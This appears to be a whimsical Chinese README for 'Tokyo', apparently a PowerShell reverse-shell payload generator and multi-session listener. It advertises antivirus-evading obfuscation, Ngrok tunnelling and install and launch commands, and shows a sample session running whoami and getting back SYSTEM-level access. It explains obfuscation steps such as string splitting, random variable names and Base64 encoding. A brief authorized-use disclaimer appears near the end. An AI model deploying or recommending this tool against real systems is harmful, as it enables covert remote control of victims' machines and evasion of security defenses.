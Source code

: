 ## 🚀 超能力清单

- 🎭 **动态变脸术**：每次生成的载荷都有新面孔，让检测引擎怀疑人生！
- 🌐 **Ngrok隧道快递**：内网穿透？我们包邮！（需自备Ngrok账号）
- 🕶️ **VIP会话包厢**：同时管理5个会话，每个攻击目标都有专属座位
- 🧩 **智能混淆算法**：把`New-Object`变成`N''e''w-O''bj''ec''t`之类的魔法文字游戏
- 🎨 **彩虹终端界面**：用Colorama绘制的彩色控制台，比黑白屏有趣100倍

## 🛠️ 安装指南

把这份「魔法配方」克隆到你的法术书（本地仓库）吧！

```bash
git clone https://github.com/9Insomnie/Tokyo.git
cd Tokyo/
pip install -r requirements.txt  # 安装魔法药水材料
```

## 🎮 使用说明书

### 基础模式
```bash
# 开启你的降雨仪式（记得替换IP哦~）
python tokyo.py -l 192.168.1.666 -p 2333

# 想直接看「Tokyo源码」？加上-r参数！
python tokyo.py -r raw
```

### 高级模式
```bash
# 启用Ngrok魔法隧道（需要先配置好Ngrok）
python tokyo.py -n ngrok
```

### 控制台魔法秀
```
[成功] 接受来自 192.168.1.102:54188 的连接

活动会话 --> [会话ID::1, 192.168.1.102::54188 ]
[提示]: 按CTRL+C切换会话
[提示]: 输入0将终止所有会话
-----------------------------------------------
[?] 选择会话 (1-3) 或输入0退出: 1

192.168.1.102:54188 >>> [Tokio会话] 1: whoami
nt authority\system 🌟
```

## 🧙 魔法原理

### 混淆炼金术流程
1. **材料准备**：生成10个随机UUID作为混淆原料
2. **文字变形**：把敏感字符串变成`Syst??r??t`这样的谜语
3. **变量整容**：用`$3dbfe2ebffe072727`这样的神秘符号替换常规变量名
4. **最终附魔**：通过Base64编码把payload变成「天书」

### 会话管理秘籍
- 🎪 每个会话都是马戏团里的独立表演者
- 🤹 用数字键快速切换不同「杂技演员」
- 💫 `quit`命令是优雅的谢幕动作

## ⚠️ 安全须知

❗ 本工具仅限授权测试使用，擅自对他人系统「人工降雨」可能会被雷劈哦 ⚡  
❗ 生成payload前请确认自己在法律允许的「降雨区域」  
❗ 建议在隔离的「魔法练习场」（虚拟机环境）使用

## 🌈 贡献指南

欢迎提交你的「魔法改良配方」！请遵循以下步骤：
1. Fork 本魔法书
2. 创建新的魔法分支 (`git checkout -b feature/awesome-spell`)
3. 提交你的咒语改进 (`git commit -am 'Add fireball spell'`)
4. 推送魔法到云端 (`git push origin feature/awesome-spell`)
5. 发起Pull Request

## 📜 开源许可

本项目采用 MIT 许可证 - 详情请见 [LICENSE](LICENSE) 文件。  
Made with ❤️ by [9Insomnie](https://github.com/9Insomnie) | 灵感来自无数个不眠雨夜 🌧️

